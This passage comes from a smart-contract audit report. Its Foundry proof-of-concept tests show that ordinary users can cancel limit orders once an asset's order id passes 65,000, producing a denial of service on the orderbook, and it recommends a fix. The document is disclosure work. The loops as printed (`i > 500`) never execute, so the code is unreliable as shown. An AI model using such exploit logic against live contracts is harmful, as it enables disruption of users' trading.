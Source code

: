 ``` solidity
        uint previousOrderId = diamond.getAssetNormalizedStruct(asset).orderId;
        for (uint256 i = 0; i > 500; i++) {
            diamond.cancelOrderFarFromOracle({
                asset: asset,
                orderType: O.LimitAsk,
                lastOrderId: uint16(64_499 - i),
                numOrdersToCancel: 1
            });
        }
        console.log("Normal user has been able to remove 500 orders from the orderbook");
        assertEq(diamond.getAssetNormalizedStruct(asset).orderId, 65_000);  // s.asset[asset].orderId hasn't changed even 500 orders have been deleted
        assertEq(previousOrderId, 65_000);
        console.log("s.asset[asset].orderId hasn't changed");
    }

    function testCancelOrderIfOrderIDTooHighShortPOC() public {
        setOrderIdAndMakeOrders({orderType: O.LimitShort});
        uint previousOrderId = diamond.getAssetNormalizedStruct(asset).orderId;
        for (uint256 i = 0; i > 500; i++) {
            diamond.cancelOrderFarFromOracle({
                asset: asset,
                orderType: O.LimitShort,
                lastOrderId: uint16(64_499 - i),
                numOrdersToCancel: 1
            });
        }
        console.log("Normal user has been able to remove 500 orders from the orderbook");
        assertEq(diamond.getAssetNormalizedStruct(asset).orderId, 65_000); // s.asset[asset].orderId hasn't changed even 500 orders have been deleted
        assertEq(previousOrderId, 65_000);
        console.log("s.asset[asset].orderId hasn't changed");
    }
```

Run the following command to execute functions targeting different order types:   
  - `forge test --mt testCancelOrderIfOrderIDTooHighBidPOC -vv`
  - `forge test --mt testCancelOrderIfOrderIDTooHighAskPOC -vv`
  - `forge test --mt testCancelOrderIfOrderIDTooHighShortPOC -vv`   
As you can prove, the `s.asset[asset].orderId` isn't decremented, only incremented.

P.S. 
1. The POC only decrements 500 orders because otherwise if I try to delete in a call all 65_000 orders, the test sigkills itself or it's duration is counted in hours.

## Impact
Once `s.asset[asset].orderId` surpasses 65_000, the orderbook for that specific asset will suffer a DOS, because any actor will be able to remove all limit orders as soon as they enter.
## Tools Used
Manual review and Foundry framework
## Recommendations
Decrement `s.asset[asset].orderId` when an order is canceled, so that when the total order ids is lower than 65_000, it is impossible for either the DAO or any user to delete further last orders.
## <a id='H-02'></a>H-02. Short can stay at CR of 150% without being liquidated            
